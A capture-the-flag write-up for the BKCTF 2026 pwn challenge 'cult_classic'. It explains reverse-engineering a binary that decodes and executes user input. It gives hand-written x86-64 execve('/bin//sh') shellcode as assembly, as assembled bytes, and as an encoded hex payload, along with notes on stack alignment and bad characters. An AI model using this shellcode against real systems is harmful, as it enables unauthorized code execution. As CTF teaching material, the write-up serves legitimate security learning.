# Introduction
This challenge appeared in BKCTF 2026, authored by Laptic (shoutout). 



# Challenge setup

At first, we are only provided with an executable compiled for Linux systems, `cult_classic`, and a `Dockerfile` showing how the binary was deployed on the challenge server:
```
FROM ubuntu:20.04

RUN apt-get update

RUN useradd -d /home/ctf/ -m -p ctf -s /bin/bash ctf
RUN echo "ctf:ctf" | chpasswd

WORKDIR /home/ctf

COPY cult_classic .
COPY flag .
COPY ynetd .

RUN chown -R root:root /home/ctf

USER ctf
EXPOSE 8989
CMD ["./ynetd", "-p", "8989", "./cult_classic"]
```
I tried running the dockerfile, to no avail, before realizing all it did was just host a server running the binary. It actually messed up the permissions on my ctf folder on my WSL install since it runs `chown` on the exact path I was using, lol.
Anyways, upon this anticlimactic revelation, I decided to just chuck `cult_classic` into Binary Ninja to disassemble and decipher the binary.

# The disassembly

Firing up Binary Ninja, our first step is to look for the function `main`, where execution will start when the binary is run. Luckily, the binary is not stripped of symbols (text labels on variables, functions, etc), so the inner workings are fairly readable.



Of note is that a buffer, `sigils`, size`0x80`, or 128 bytes, is given to the user to fill out. Then, some sort of spell is "casted" using these "sigils." A bit kitschy, but ultimately a cute touch in terms of theming.

Let's look at this occult spellcasting function.



Okay, so this is a bit more interesting. Firstly, space is prepared for the deciphered spell. Then, the spell is deciphered using a loop. Afterwards, the deciphered spell is called as if it was a function. 

Within the loop, each byte of the deciphered spell is the index `i` xor'ed with the corresponding byte in `ritual`, plus 7. Note that if 7 is added and the number is less than 7 away from 255, it will underflow back to a value around 0, as the maximum value of a byte is 255.

One small thing is bugging me, though. As shown here in Binary Ninja (this also happens in Ghidra, funnily enough), the loop will actually never end? This is because the for loop holds so long as i is greater than or equal to 0, making its runtime functionally infinite. That can't be right, so let's inspect the raw assembly.



Okay, this makes a bit more sense (at least, to me). 

First, let's get some sense of direction here, though. Essentially, in assembly, loops are done by doing a mathematical computation on a number and then jumping back to the start of the loop, based on the properties of the test. In this case, we take the last 8 bits of the `rax` register and `test` them together, which is a logical `AND` on every byte, without actually modifying anything. Then, it executes `jns`, or "Jump not sign", AKA we jump if the most significant bit was not set in the last computation. The most significant bit in a byte corresponds with the value 128, so essentially this loop loops from 0 to 127, or 128 times. This is as expected. The rest of the loop in the middle is exactly as shown in the decompiled code. 

Now we have some direction for how to formulate an attack. The program performs a reversible operation on the user input (`xor` with `i` then add 7 for each byte), then executes the modified user input. If we have total control over what is being executed, then we should be able to supercede the process with a command shell and then just print out the flag!

# Trial and error

The first part is making sure what we input is what ends up being executed in the function. To do this, we use the GCHQ-developed (thanks feds!) encoding multitool CyberChef, because python handles bytes in a confusing way, or at least too confusing for past me. 

Anyways, let's rip [someone else's bytecode](https://www.ctfrecipes.com/pwn/stack-exploitation/arbitrary-code-execution/arbitrary-code-execution) for creating a command shell from the stack and try it out. Here's the original data and its corresponding assembly:



Okay, seems legit, i guess? We do some stuff, push null bytes and then push "/bin/bash" and call interrupt 80 (system call) to call it using an execute system call? Let's see what we need to make it in order to pass it into `cult_classic`.

Okay, subtracting 7 and then xoring with `00010203...`, we get this:



Let's fire up the command line and start testing it. We can use the python pwntools library to make a template to mess with the `cult_classic` library in GDB while sending it data in python. To do this, we type `pwn template cult_classic`, and send it with `>` into a file. Thus, `pwn template cult_classic > sol.py`. We can run this with `python` or `py` or `python3`, followed by `sol.py`. If we want it to open the GNU debugger to poke and prod at the program while it's running, we can tack on `GDB` to the command. 

The template should have the following text: 
```
# Specify your GDB script here for debugging
# GDB will be launched if the exploit is run via e.g.
# ./exploit.py GDB
```
We specify the following line: `tbreak main`, to stop at the execution of the function `main`, once (tbreak stands for temporary breakpoint). Let's now set up the program to be able to send `cult_classic` our payload. 



Ideally, we let the binary send us a line, send our sigils, and then hopefully drop into interactive mode to print out the flag! Let's run it!



Oh... I guess it's not that simple. Why? Let's open up GDB.



We're getting a segmentation fault! This is what happens when our program touches memory it's not supposed to. Let's look and see if this is because we encoded it wrong. We use GDB's x command to show 18 instructions from 33 before the current instruction, the length of our shellcode we inserted into the program. 



Uh, no. It's completely intact! So what's the real culprit? I didn't figure that out until I tried like 5 different payloads from across the internet. In the end, I had to design mine myself. But I'll save you the trouble: when calling `exec`, as we try to do here, we need to have the computer's "stack pointer" be a multiple of 16, AKA the stack must be aligned. Otherwise, the operating system just tells you to skedaddle. This means execution just continues after the interrupt, and  in this case, the random garbage following our code makes us xor whatever is pointed to by `rcx` (certainly not a valid location in memory for us to touch) with some register `ch`. We can verify this by printing the value of the stack pointer:



Yep, it doesn't end with a zero in hexadecimal, so it isn't a multiple of 16.

Not present with this sample payload was another issue I ran into: some characters, when subtracted and xor'ed, would turn into a newline character, the byte `0a` or 10. Since the program expects one line, this would cut off half of the payload.

# Final payload

After failing many times, I took it upon myself to craft a suitable exploit by hand.

The assembly is as follows: 
```
BITS 64
xor     rax, rax    ;Clearing eax register
push    rax         ;Pushing NULL bytes
push    rax         ;Pushing NULL bytes (align stack)
mov     rax, 0x68732f6e    ;load n/sh 
shl     rax, 0x20          ;make room on rax
xor     rax, 0x69622f2f    ;load //bi
push    rax                ;push //bin/sh
mov     rdi, rsp    ;rdi now has address of /bin//sh
xor     rsi, rsi    ;rsi now NULL
xor     rdx, rdx    ;rdx now NULL
mov     rax, 0x3b   ;syscall number of execve is 59
syscall             ;Make the system call
```

This compiles (using the tool nasm) into the following bytes:
```
00000000: 4831 c050 50b8 6e2f 7368 48c1 e020 4835  H1.PP.n/shH.. H5
00000010: 2f2f 6269 5048 89e7 4831 f648 31d2 b83b  //biPH..H1.H1..;
00000020: 0000 000f 05                             .....
```

Which we plug into CyberChef to subtract and xor, receiving the following hex bytes, notably avoiding any "badchars" such as a newline (heck yeah!):

`412bbb4ab5622e6b6948b0d2154c2027384a705a5597f65632f65b31d756af2bd9d8db2bda`

Now, we can do this:



Yay yippee yay! Cthulu time!



(pretend I replaced "bin sleepn" with "//bin/sh" or something funny)

# Key takeaway

So, the vulnerability here is executing user input. Also don't make the stack executable! Modern compilers have many safety features, don't disable them unless there's an educational purpose, for example, a CTF challenge like this one.